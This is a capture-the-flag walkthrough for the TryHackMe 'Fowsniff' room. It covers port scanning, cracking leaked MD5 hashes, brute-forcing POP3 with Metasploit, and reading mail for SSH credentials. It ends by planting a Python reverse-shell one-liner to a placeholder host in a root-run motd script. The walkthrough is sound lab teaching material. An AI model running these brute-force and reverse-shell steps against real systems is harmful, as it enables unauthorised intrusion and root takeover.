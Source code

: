 Room: [Fowsniff CTF](https://tryhackme.com/room/ctf)

Difficulty: Easy

Overview: On-going project

------------------------------------------------------------------------------------------------------------------------------------------------------------------

We will start by enumerating all open ports on the remote system and to do so we can use “nmap”:

```
nmap -sV -sC -p- fowsniff.thm -oN nmap.txt

-sV         → Probe open ports to determine service
-sC         → Scan using the default set of scripts
-p-          → Scan all ports
fowsniff.thm  → ip address of the room (added the ip to /etc/hosts and named it)
-oN         → Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/166565008-389610f8-322e-4664-863a-c1e9ec04125c.png)

There are four open ports on the system:

22 → OpenSSH 7.2p2 Ubuntu

80 → Apache httpd 2.4.18

110 → Dovecot pop3d

143 → Dovecot imapd

Since there is an apache webserver running in the system we can use "Gobuster" to search for hidden directories or files in http servers:

![image](https://user-images.githubusercontent.com/76821053/166566478-31c90dd0-f9fa-49b7-ad12-2373e6c3f384.png)

When analysing the results "Gobuster" found a security.txt file that we can access.

![image](https://user-images.githubusercontent.com/76821053/166566690-190a443c-07cf-4192-ad14-1106a39b6ef5.png)

This server was hacked by BigN1nj4! who left a teaser on the website.

Now, the room gave us a hint to look for information using google. A little later i found that the hacker leaked information on [PASTEBIN](https://pastebin.com/NrAqVeeX).

![image](https://user-images.githubusercontent.com/76821053/166566743-734f9fb9-bd15-4b67-b918-d7f297bac6ed.png)

He leaked email and their respective passwords from their databases. The hashes are encrypted in MD5 and to decrypt them we can use sites like [hashkiller](https://hashkiller.io/listmanager) or [hashes.com](hashes.com/en/decrypt/hash).

![image](https://user-images.githubusercontent.com/76821053/166566776-080788b0-f88a-4eae-909f-708dbb0381ec.png)

After decrypting all MD5 hashes i have created two text files, one with the name of the users found and another with the decrypted passwords.

The purpose is to try to brute force the pop3 login service mail with the dictionaries that we have just created from the two text files.

To find a valid login we can use diferent tools but in this case we will use "metasploit".

```
msfconsole

search pop3  - To search for pop3 related content

use auxiliary/scanner/pop3/pop3_login   - To select the option we want to use
```

![image](https://user-images.githubusercontent.com/76821053/166566786-731828e6-2214-475f-bbf0-2250f6651b5b.png)

```
options  -  To list the module options that we need to set to do our brute force 
```
We have to set PASS_FILE and USER_FILE to the path of our text files and set the RHOSTS to the ip we want to target.

![image](https://user-images.githubusercontent.com/76821053/166566802-9c2d140a-4738-43ac-b074-b1961c60ea39.png)

To run this module just hit run

```
run
```

![image](https://user-images.githubusercontent.com/76821053/166566824-ba1078f4-2aa8-42fd-9d09-88b61cd8b0df.png)

Metaspoit attack found a valid user and respective password. With these credentials we have accessed the pop3 email service hosted at port 110.

To access the email service we can use "Telnet". In this website you can find information "Telnet" about commands https://www.shellhacks.com/retrieve-email-pop3-server-command-line/

```
telnet 10.10.125.75 110

USER seina 

PASS *******

LIST     - Lists all messages

RETR 1   - Retrieve first message

RETR 2   - Retrives second message
```

![image](https://user-images.githubusercontent.com/76821053/166566847-a75b12cc-aff6-426a-9a04-a431d03db427.png)

Found ssh credentials.

These credentials pertains to backsteen.

![image](https://user-images.githubusercontent.com/76821053/166566877-f6437936-4876-428f-b5bd-d136916aa6cf.png)

ls


Enumerating the system i searched for any files that can be run by that group users:

```
find / -group users -type f -exec ls -la {} 2>/dev/null \;

```

![image](https://user-images.githubusercontent.com/76821053/166566901-07448446-f980-4184-ba6a-20aae12e5dd0.png)

Found that users group have read/write permissions of a bash script called cube.sh.

![image](https://user-images.githubusercontent.com/76821053/166566918-dfa97f58-bc9f-43d9-81de-23cb4398adbc.png)

After reading the contents of cube.sh we can recognize that this prints the motd (message of the day) that we receive after loggin in through ssh.

If we check the directory /etc/update-motd.d/ and look into the executables, the file “00-header” runs the cube.sh script with root permissions.

![image](https://user-images.githubusercontent.com/76821053/166566946-76373e54-79b5-48c1-bd7b-3e12788de657.png)

Since we have group permissions to write cube.sh script we can try and get a reverse shell by including a python3 reverse shell payload.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Pay attention to the syntax because you need to make a little change. Your ip will be between comas.

![image](https://user-images.githubusercontent.com/76821053/166566976-9d18124e-a0e7-41d2-b4c4-a40a231f04a8.png)

We need to setup a netcat listener and restart the ssh connection to trigger the motd welcome message and it will run our reverse shell.

![image](https://user-images.githubusercontent.com/76821053/166567250-877a7eed-83b5-4f6a-b846-c0b351b966a6.png)

Success we are now root!!

Just for proof of concept we can print the root flag!

![image](https://user-images.githubusercontent.com/76821053/166567045-7163c720-eba6-496b-bfaf-8e3d8667c762.png)










